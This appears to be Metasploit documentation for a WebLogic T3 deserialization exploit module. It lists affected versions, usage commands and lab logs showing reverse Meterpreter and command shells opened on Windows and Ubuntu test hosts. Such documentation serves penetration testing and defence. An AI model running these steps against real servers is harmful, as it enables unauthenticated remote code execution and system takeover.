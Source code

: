## Description

Oracle Weblogic Server v10.3.6.0, v12.1.3.0, v12.2.1.2, and v12.2.1.3 are vulnerable to a deserialization vulnerable, which can be used to execute code on vulnerable systems. An unauthenticated user with network access via T3 could exploit the vulnerability. This module has been tested against Oracle Weblogic Server v10.3.6.0 running on Windows10 x64 using JDK v7u17.

## Vulnerable Application

[Oracle Weblogic Server v10.3.6.0](http://download.oracle.com/otn/nt/middleware/11g/wls/1036/wls1036_generic.jar), v12.1.3.0, v12.2.1.2, and v12.2.1.3.

## Verification Steps

1. `./msfconsole -q`
2. `use exploit/multi/misc/weblogic_deserialize`
3. `set rhosts <rhost>`
4. `set srvhost <srvhos>t`
5. `set srvport <srvport>`
6. `run`

## Scenarios

### Tested on Windows 10 x64 running Oracle Weblogic Server 10.3.6.0 on JDK v7u17

```
msf exploit(multi/misc/weblogic_deserialize) > set rhosts 172.22.222.175
rhosts => 172.22.222.175
msf exploit(multi/misc/weblogic_deserialize) > set srvhost 172.22.222.121
srvhost => 172.22.222.121
msf exploit(multi/misc/weblogic_deserialize) > set srvport 8888
srvport => 8888
msf exploit(multi/misc/weblogic_deserialize) > set target 1
target => 1
msf exploit(multi/misc/weblogic_deserialize) > run
[*] Exploit running as background job 0.
msf exploit(multi/misc/weblogic_deserialize) >
[*] Started reverse TCP handler on 172.22.222.121:4444
[*] Sending stage (179779 bytes) to 172.22.222.175
[*] Meterpreter session 1 opened (172.22.222.121:4444 -> 172.22.222.175:49908) at 2018-08-08 17:53:07 -0500
sessions -i 1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer        : _
OS              : Windows 10 (Build 17134).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter >
```

### Tested on Ubuntu 14.04 LTS x64 running Oracle Weblogic Server 10.3.6.0 on Sun SDK 1.6.0_29
```
msf > use exploit/multi/misc/weblogic_deserialize
msf exploit(multi/misc/weblogic_deserialize) > set rhosts 172.22.222.205
rhosts => 172.22.222.205
msf exploit(multi/misc/weblogic_deserialize) > set srvhost 172.22.222.207
srvhost => 172.22.222.207
msf exploit(multi/misc/weblogic_deserialize) > set lhost 172.22.222.207
lhost => 172.22.222.207
msf exploit(multi/misc/weblogic_deserialize) > set verbose true
verbose => true
msf exploit(multi/misc/weblogic_deserialize) > check

[+] 172.22.222.205:7001 - Detected Oracle WebLogic Server Version: 10.3.6.0
[*] 172.22.222.205:7001 The target appears to be vulnerable.
msf exploit(multi/misc/weblogic_deserialize) > run
[*] Exploit running as background job 0.
msf exploit(multi/misc/weblogic_deserialize) >
[*] Started reverse TCP handler on 172.22.222.207:4444
[*] 172.22.222.205:7001 - Sending handshake...
[*] 172.22.222.205:7001 - Sending client object payload...
[*] 172.22.222.205:7001 - Comparing host: 172.22.222.205
[*] 172.22.222.205:7001 - Sending payload to client: 172.22.222.205
[*] 172.22.222.205:7001 - Comparing host: 172.22.222.205
[*] Command shell session 1 opened (172.22.222.207:4444 -> 172.22.222.205:37168) at 2018-08-30 06:10:31 -0500
[*] 172.22.222.205:7001 - Server stopped.

msf exploit(multi/misc/weblogic_deserialize) > sessions -i 1
[*] Starting interaction with 1...

uname -a
Linux ubuntu 4.4.0-134-generic #160~14.04.1-Ubuntu SMP Fri Aug 17 11:07:07 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
```
